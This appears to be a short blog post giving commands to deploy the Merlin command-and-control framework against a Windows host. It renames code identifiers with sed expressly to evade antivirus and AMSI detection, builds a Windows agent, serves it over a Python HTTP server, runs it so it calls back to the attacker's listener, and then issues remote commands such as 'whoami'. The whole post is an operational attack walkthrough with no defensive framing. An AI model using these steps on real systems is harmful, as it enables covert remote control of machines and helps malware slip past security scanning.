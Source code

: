 ```yaml
---
layout: post
---
```

To use Merlin as a Command & Control server, which is written in golang, we should take the following steps:

{% highlight ruby %}
go version	-> version should be 1.13 or higher
apt update && sudo apt install golang-go
git clone https://github.com/Ne0nd0g/merlin && cd merlin


## Now replace ExecuteShell for MiniMice to trick virusscanners and AMSI
## and also hide Ne0nd0g for AMSI, as this is the developer
find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/ExecuteShell/MiniMice/g'
find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/executeShell/miniMice/g'
find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/github.com\/Ne0nd0g\/merlin/github.com\/mini\/heyho/g'
sed -i 's/github.com\/Ne0nd0g\/merlin/github.com\/mini\/heyho/g' go.mod


## Create an output directory and build the Merlin agent
make agent-windows DIR="./output"

## Start the Merlin server listener
go run cmd/merlinserver/main.go -i 0.0.0.0 -p 8443 -psk strongPassphraseWhaterYouWant

## Run a python HTTP Server to copy the Merlin agent to the Windows system
cd /mnt/tools/merlin/output/
python -m SimpleHTTPServer 80

## Run the Merlin agent on the Windows host
merlinAgent-Windows-x64.exe -url https://172.16.216.135:8443 -psk strongPassphraseWhaterYouWant
[+]New authenticated agent checkin for a0c86f61-4f21-4e63-9856-b73d7b8fbf3a

## Now we can interact with the agent:
interact a0c86f61-4f21-4e63-9856-b73d7b8fbf3a

help
ls
info
cmd whoami

{% endhighlight %}

{% include youtubePlayer.html id="4J-6mUb4ORQ" %}
